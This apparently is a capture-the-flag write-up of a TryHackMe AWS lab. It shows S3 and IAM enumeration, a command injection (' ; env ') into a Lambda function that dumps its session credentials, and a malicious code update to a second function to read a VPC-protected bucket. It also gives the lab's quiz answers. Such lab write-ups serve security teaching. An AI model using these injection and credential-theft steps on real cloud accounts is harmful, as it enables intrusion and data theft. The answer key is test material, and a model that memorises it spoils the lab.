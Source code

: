 # Lambda - Data Exfiltration

## Mission brief
The Uruks of Mordor have hired you to get access to a CryptoWallet in the AWS Account belonging to a rival gang of Uruk-hai. The gang has obtained some AWS read-only AWS credentials to the target account through means you don't want to ask about. Unfortunately, the CryptoWallet is in an S3 Bucket protected by a VPC Endpoint policy. You cannot access it from anywhere except the VPC.
For this challenge, the read-only credentials are the same ones provided by the TryHackMe environment, so continue to use them. You will want to leverage your AttackBox for this exercise. 

## Reconnaissance of the Buckets in the Environment
- Run the following commands for 

```bash
aws s3 ls
aws s3 ls s3://$BUCKET_NAME
```
![image](https://github.com/user-attachments/assets/ddd7e771-ad06-48af-a856-848a696de384)

- As seen from the screenshot, only the first bucket `mauhur-coins-637423357278` has some items in it. Copy the items to the local machine

```bash
aws s3 cp s3://mauhur-coins-637423357278/password.txt .
```

![image](https://github.com/user-attachments/assets/70401c1d-4b32-434e-8e84-a596000ec7f0)

- We get a permission error, indicating the user only has read permission on the S3 bucket. In fact, we can confirm this by running

```bash

aws s3api get-bucket-policy --bucket mauhur-coins-637423357278 --query Policy --ouput text | jq .
```

![image](https://github.com/user-attachments/assets/cea07b8e-d93c-4033-a7eb-4236a2d18aaf)

- Also, from the above screenshot, we see that there's only a VPC that has access to the s3 bucket `vpce-030a142134efd2262`
- This VPC will be our target. Run the followinnng commands for enumeration

```bash
aws ec2 describe-vpc-endpoints
```

![image](https://github.com/user-attachments/assets/50f4a6c3-a292-4699-ba10-0e66632d5b0b)

```bash
aws ec2 describe-vpcs
```

![image](https://github.com/user-attachments/assets/6920b218-6251-4d89-995a-3c58ff7491af)

- There is a piece of information that stands out. We see Mahur's VPC in the above screenshot, with a warning "DO NOT USE". So if we get access to this VPC, we can get a hold of the S3 bucket.

**What is the NotAction value in the policy for the coins bucket?**

`-> s3:PutObject`

**What is the Name of the VPC we need to target?**

`-> Mauhur's VPC - Do not Use`

- In this scenario, the vitim only has some Lambda function to run. We can inpsect these functions to see what they contain.

## Enumerate Lambda functions
Run the following command to get the list of Lambda functions

```bash
aws lambda list-functions >> lambda-functions.json
```

Use the following script to enumerate the attached policies

```bash
FUNCTIONS="list-images download-images"

for f in $FUNCTIONS ; do
    ROLE=`aws lambda get-function --function-name $f --query Configuration.Role --output text | awk -F\/ '{print $NF}'`
    echo "$f has $ROLE with these managed policies:"
    aws iam list-attached-role-policies --role-name $ROLE
    for p in `aws iam list-role-policies  --role-name $ROLE --query PolicyNames --output text` ; do
        echo "$ROLE for $f has inline policy $p:"
        aws iam get-role-policy --role-name $ROLE --policy-name $p
    done
done
```

As a reuslts, we see some Lambda functions handling images: One list content of the bucket and one downloads the content. 
Amongst these two functions, only the one that downloads images has our targeted VPC configured -> Download images function will be the main target

**Which Lambda function has the AWSLambda_FullAccess managed policy attached to it?**

`-> list-images`

**Which Lambda function has the IAM permissions to access any S3 Object in any S3 Bucket in this account?**

`-> download-images`

## Analyze Lambda functions
Let's go over what we've done so far. We need to target `download-images` lambda function which is configured in a targeted VPC that has full permission over the interested S3 bucket.
Since we have `AWSLambda_FullAccess` permission on the 'list-images` function, we can leverage that to change the code in `donwload-images` function.
We can analyze both functions by downloading them:

```bash
# Retrieve the Lambda function URL
aws lambda get-function --function-name list-images --query Code.Location --output text

# Download the function and save it to a zip file
curl -s $URL -o list-images.zip

# Make a new directory for the function an unzip the file
mkdir list-images
unzip list-images.zip -d list-images
```

We can leverage the following script to do the same thing:

```bash
FUNCTIONS="list-images download-images"
for f in $FUNCTIONS ; do
    URL=`aws lambda get-function --function-name $f --query Code.Location --output text`
    curl -s $URL -o $f.zip
    mkdir $f
    unzip $f.zip -d $f
done
```
**Who gave the list-images function's author the vulnerable CLI command to run?**
Inspect the two functions and we get the answer in one of those two.

`-> Uglúk`

### Analyzing the `list-images` function
As we can see, the code runs a simple AWS CLI command which does not have input sanitized. 

```bash
f"aws s3 ls s3://{os.environ['IMAGE_BUCKET']}/{event['prefix']}"
```

We can inject a command into this line of code. When running this Lambda function with the following `payload.json`

```json
{
    "prefix": " ; env "
}
```

The resulting commdand looks like `aws s3 ls s3://{os.environ['IMAGE_BUCKET']}; env`, which prints out all environment variables.
Run the following command to invoke the `list-images` function:

```bash
aws lambda invoke --function-name list-images --payload fileb://payload.json output.json
cat output.json | jq -r . | grep AWS
```

Before moving on, let's modify the `download-images` function:
- On the line `Bucket=os.environ['IMAGE_BUCKET']`, change to `Bucket='mauhur-coins-XXXXXXXXXXXX'`
- Zip this modified `index.py` to update the `download-images' function.
  
```bash
zip -r ../compromised.zip index.py
```

## EXfiltrate credentials
From the above `payload.json` and the  `index.py` file, invoke the `list-images` function

```bash
aws lambda invoke --function-name list-images --payload fileb://payload.json output.json
cat output.json | jq -r . | grep AWS
```

Take note of the following key-value pairs: `AWS_SESSION_TOKEN`, `AWS_SECRET_ACCESS_KEY`, `AWS_ACCESS_KEY_ID`
Open a new terminal and update the environemnt variables:

```bash
user@machine$ export AWS_SESSION_TOKEN=REDACTED
user@machine$ export AWS_SECRET_ACCESS_KEY=REDACTED
user@machine$ export AWS_ACCESS_KEY_ID=ASIAREDACTED
```

![image](https://github.com/user-attachments/assets/12881229-ff9e-4586-b65e-d81620d75958)

Verify we're using the Lambda function's credentials:

```bash
aws sts get-caller-identity
```

![image](https://github.com/user-attachments/assets/18c38d0d-280e-4698-aff2-8070f736b903)

Now with this new credentials, we can update the `download-images` function using

```bash
aws lambda update-function-code --region us-east-1 --function-name download-images --zip-file fileb://compromised.zip
```

Create `payload2.json` file

```json
{"object_key": "password.txt" }
```

Invoke the compromised function

```
aws lambda invoke --function-name download-images --payload fileb://payload2.json output2.json
```

And we should get the password in `output2.json`

**What's the value of the AWS_EXECUTION_ENV environment variable?**

`-> AWS_Lambda_python3.9`

**What is the secret phrase in password.txt?**

`-> Do you know how the orc first came to be? They were elves once taken by the dark powers. 
Tortured and mutilated, a ruined and terrible form of life.`

**Which managed policy seems harmless but should not be used lightly?**

`-> `
